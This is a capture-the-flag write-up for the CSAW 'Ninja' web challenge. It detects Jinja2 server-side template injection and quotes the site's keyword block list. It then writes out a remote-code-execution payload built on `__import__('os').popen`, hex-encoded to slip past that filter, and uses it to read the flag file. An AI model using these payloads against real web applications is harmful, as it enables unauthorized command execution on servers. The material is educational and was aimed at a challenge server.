

# Ninja

> Hey guys come checkout this website i made to test my ninja-coding skills.
> 
> http://web.chal.csaw.io:5000

## Description

The website only has a field where we can input stuff, and it is reflected to us on another page.



We can inject javascript but that will not help us.

I tried inputting `{{ 2*2 }}` and I got back `4`! So our input is interpreted server-side.

By inputting `{{ self }}` I got back `<TemplateReference None>`: Google tells me this is `jinja2` running.

[OnSecurity](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/) has a page which lists examples strings to exploit jinja2 SSTI.

Sadly, there is also a WAF preventing us from inputting every string:
> Sorry, the following keywords/characters are not allowed :- _ ,config ,os, RUNCMD, base

## Solution

What I want to do is remote code execution using this injection:
```python
{{request.application.__globals__.__builtins__.__import__('os')['popen']('ls')['read']()}}
```

However `_` is forbidden, so I transform it to:
```python
{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('ls')['read']()}}
```

Thus I can encode forbidden characters, in this case `_`, `import`, `popen` and `os`. This gives me the following string:
```python
{{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f']('\x6f\x73')['\x70\x6f\x70\x65\x6e']('ls')['read']()}}
```

Well this work, I just need to replace `ls` by `cat flag.txt` to get the flag.

Flag: `flag{m0mmy_s33_1m_4_r34l_n1nj4}`
